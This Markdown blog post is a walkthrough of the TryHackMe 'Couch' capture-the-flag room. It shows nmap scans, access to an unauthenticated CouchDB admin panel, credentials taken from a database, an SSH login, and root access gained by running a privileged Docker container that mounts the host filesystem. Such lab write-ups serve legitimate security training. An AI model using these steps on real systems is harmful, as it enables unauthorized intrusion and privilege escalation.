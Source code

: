 ```yaml
---
title: TryHackMe Couch
date: 2021-07-09T19:22:00+05:30
lastmod: 2021-07-09T19:22:46+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
#cover: /img/blog.png
cover: /img/thm.gif # for tryhackMe

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm
  - couch

draft: false
description: TryHackMe Room couch solved by Animesh Roy. this is a walkthough. Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge.

---
```


## Couch

## Flags

|Task|Remarks|
|---|---|
|1.1|[flag](#recon)|

---

### Recon

running nmap: (Default)

```bash
┌──(anir0y㉿kali)-[~/share/thm/room/couch]
└─$ sudo nmap -sC -sV -oN nmap/couch 10.10.94.40
[sudo] password for anir0y: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-09 19:26 IST
Nmap scan report for 10.10.94.40
Host is up (0.21s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.79 seconds
```

Nmap All ports:

```bash
┌──(anir0y㉿kali)-[~/share/thm/room/couch]
└─$ sudo nmap -p - -oN nmap/all-ports 10.10.94.40 -T4                        130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-09 19:39 IST
Nmap scan report for 10.10.94.40
Host is up (0.15s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5984/tcp open  couchdb

Nmap done: 1 IP address (1 host up) scanned in 408.20 seconds
```

### 1.2

What is the database management system installed on the server?

```zsh
┌──(anir0y㉿kali)-[~/share/thm/room/couch]
└─$ sudo nmap -sC -sV -oN nmap/5984 10.10.94.40 -p 5984
...[snip]...

PORT     STATE SERVICE VERSION
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).

```

### 1.3

What port is the database management system running on?

ans is in nmap scan results [Recon](#recon)

### 1.4

What is the version of the management system installed on the server?

Ans is [here?](#13)

### 1.5

What is the path for the web administration tool for this database management system?

Browsing to `http://MACHINE_IP:5984/` gives us the following JSON message:

```zsh
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

It seems like we can browse the contents of the database server a bit in our browser. If you search on the web on
CouchDB, you will find that the _utils URL will bring the user to the admin panel. Browse to `http://MACHINE_IP:5984/_utils` to see the following web page

![IMG](https://i.imgur.com/UCA3PP5.png)

### 1.6

What is the path to list all databases in the web browser of the database management system?

![img](https://i.imgur.com/mX6dgqb.png)

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

### 1.7

looing in to `db` we found a database named `secret` the content of this DB reveals the creds:

![img](https://i.imgur.com/OHwjid1.png)

### 1.8

using the found creds, we can `SSH` into the box

```zsh
┌──(anir0y㉿kali)-[~/share/thm/room/couch]
└─$ ssh atena@10.10.94.40
The authenticity of host '10.10.94.40 (10.10.94.40)' can't be established.
ECDSA key fingerprint is SHA256:TtfUUNS6Ivob4iQ7X414863lCCc1q2YyzzycIkRTZ3k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.94.40' (ECDSA) to the list of known hosts.
atena@10.10.94.40's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ cat user.txt 
THM{FLAG-Content}
```

### 1.9

Do manual enumeration - check the following for Privilege Escalation:

- Sudo Permissions
- SUID binaries
- Cron Jobs
- Backup files
- History files
- Config files
- Running Processes (ps aux)

By checking the bash history file:

```zsh
atena@ubuntu:~$ cat .bash_history 
[..snip..]
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
[..snip..]
```

Docker sounds intresting, let's see what we can get with it. turns out this mounts the `/` dir of host system in docker `/mnt` location. once you understand this. rest are just starting the docker image, and start looking. I use `find` command to help me here.

* Run docker in privileged mode, to get root access
  
```bash
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

### Root.txt

```bash
~ # find / -name root.txt 
/mnt/root/root.txt

~ # cat /mnt/root/root.txt
THM{REDACTED}
```

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
